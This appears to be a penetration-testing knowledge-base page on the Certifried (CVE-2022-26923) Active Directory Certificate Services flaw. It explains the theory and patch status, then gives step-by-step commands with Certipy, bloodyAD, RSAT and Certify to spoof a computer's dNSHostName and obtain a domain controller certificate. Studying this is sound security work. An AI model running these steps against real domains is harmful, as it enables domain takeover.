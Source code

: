 ```yaml
---
description: CVE-2022–26923
---
```


# Certifried

## Theory

[Certifried (CVE-2022-26923)](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) is a vulnerability discovered by [Oliver Lyak](https://twitter.com/ly4k_) on AD CS that lets a domain-joined user escalate its privileges in the domain.

A domain user creating a computer account obtains the `Validated write to DNS host name` and `Validated write to service principal name` permissions (among other rights). Therefore, the user is allowed to change the DNS host name (`dNSHostName`) and SPN (`servicePrincipalName`) attributes of the computer account.

Computer accounts (using the `Machine` template) use the value of the `dNSHostName` property for authentication. Attempting to change the `dNSHostName` to match another computer account raises a constraint error.

In fact, the moment the `dNSHostName` property is edited, the domain controller makes sure to update the existing SPNs of the account so that the "hostname" part of it is updated to the new DNS hostname. If the SPNs already exist for another account in Active Directory, the domain controllers raises the constraint violation.

The trick found by Oliver goes as follows:

1. clear the SPNs (or at least those that reflect the `dNSHostName` value, i.e. the ones with fully-qualified hostnames, e.g. `HOST/SRV01.DOMAIN.LOCAL`)
2. change to `dNSHostName` to a target's DNS hostname (e.g. `DC.DOMAIN.LOCAL`). The constraint violation won't be raised since there won't be any SPN to update
3. request a certificate for the computer account using the `Machine` template. The Certificate Authority will use the `dNSHostName` value for identification and issue a certificate for the Domain Controller.
4. Authenticate as the DC.

A patch was released in may 2022 to address this vulnerability: [more information here](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#db1c) and on [#certificate-mapping](certificate-templates.md#certificate-mapping).

## Practice

### Detecting unpatched targets

Requesting a certificate based on the `Machine` (or `User`) template can indicate whether the patch has been applied or not. If the certificate object contains an SID (`objectSid`), then the patch has been applied.

::: tabs

=== UNIX-like

This check can be conducted using [Certipy](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwjCp86j1fb3AhWpzYUKHSMeBFoQFnoECA8QAQ\&url=https%3A%2F%2Fgithub.com%2Fly4k%2FCertipy\&usg=AOvVaw1D9CAn7Ysn5XMdezp8Aemb) (Python).

```bash
certipy req -u "$USER@$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'User'
```


If Certipy doesn't print `Certificate object SID is [...]` after obtaining the certificate, then the attack can be conducted.

> [!WARNING]
> Oliver [underlined](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4#08a1) the fact that to fully mitigate the vulnerability, both the KDC and the CA server must be patched.

=== Windows

_At the time of writing this recipe (June 2022), no Windows alternative has been found._

:::


### Conducting the attack

#### Creating a computer account

The first step of the attack consists in creating a computer account ([machineaccountquota.md](../builtins/machineaccountquota), [#create-a-computer-account](../builtins/machineaccountquota#create-a-computer-account)), or have the write permission to the `dNSHostName` and `servicePrincipalName` attributes of another.

#### `dNSHostName` and `servicePrincipalName` modification

The second step is conducted by removing the SPNs that reflect the `dNSHostName` value, and then modifying the `dNSHostName` to the name of the computer account to impersonate.

::: tabs

=== UNIX-like

The [bloodyAD](https://github.com/CravateRouge/bloodyAD) (Python) tool can be used on UNIX-like systems to operated these changes.

```bash
# Clearing the SPNs
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME serviceprincipalname

# Setting the dNSHostName value to the name of a computer account to impersonate
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP set object $COMPUTER_NAME dnsHostName -v '$DC_NAME.$DOMAIN'

# Verifying the dNSHostName value and SPN entries
bloodyAD -d $DOMAIN -u $USER -p $PASSWORD --host $DC_IP get object $COMPUTER_NAME --attr dnsHostName,serviceprincipalname
```


[Certipy](https://github.com/ly4k/Certipy) tool can also add a machine account and amend the `dNSHostName` property with the following command liner.


```bash
# Adding a computer account and setting the dNSHostName to impersonate
certipy account create -u "$USER"@"$DOMAIN" -p "$PASSWORD" -user "$COMPUTER_NAME" -pass "$COMPUTER_PASS" -dns "$DC_NAME.$DOMAIN"

```

> [!TIP]
> The Domain Components (DC) are the different parts of the domain name (`DC=domain,DC=local` for `domain.local`, or `DC=sub,DC=domain,DC=local` for `sub.domain.local`).

=== Windows

The [Active Directory RSAT](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) tools can be used on Windows systems to operate these changes.

```bash
# Clearing the SPNs
Set-ADComputer $COMPUTER_NAME -ServicePrincipalName @{}

# Setting the dNSHostName value to the name of a computer account to impersonate
Set-ADComputer $COMPUTER_NAME -DnsHostName $DC_NAME.$DOMAIN_FQDN

# Verifying the dNSHostName value and SPN entries
Get-ADComputer $COMPUTER_NAME -properties dnshostname,serviceprincipalname
```

:::


#### Obtaining a certificate

The third and last step consists in getting the certificate of the targeted machine account (`$DC_NAME` in the previous command examples).

::: tabs

=== UNIX-like

[Certipy](https://github.com/ly4k/Certipy) (Python) can be used to request the certificate from UNIX-like systems.


```bash
certipy req -u 'compter$'@"$DOMAIN" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'Machine'

```


The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate.

> [!TIP]
> By default, Certipy uses LDAPS, which is not always supported by the domain controllers. The `-scheme` flag can be used to set whether to use LDAP or LDAPS.

=== Windows

[Certify](https://www.google.com/url?sa=t\&rct=j\&q=\&esrc=s\&source=web\&cd=\&cad=rja\&uact=8\&ved=2ahUKEwiQmZer1fb3AhVBhRoKHSCyAMoQFnoECAcQAQ\&url=https%3A%2F%2Fgithub.com%2FGhostPack%2FCertify\&usg=AOvVaw0HjmYWwbHvGKTA3-f1iPP0) (C#) can be used to request the certificate from Windows systems.

```powershell
Certify.exe request /ca:"domain\ca" /template:"Machine"
```


The certificate can then be used with [Pass-the-Certificate](https://www.thehacker.recipes/ad/movement/kerberos/pass-the-certificate) to obtain a TGT and authenticate.

:::


## Resources

[https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4)

[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26923)

[https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html](https://cravaterouge.github.io/ad/privesc/2022/05/11/bloodyad-and-CVE-2022-26923.html)

[https://tryhackme.com/room/cve202226923](https://tryhackme.com/room/cve202226923)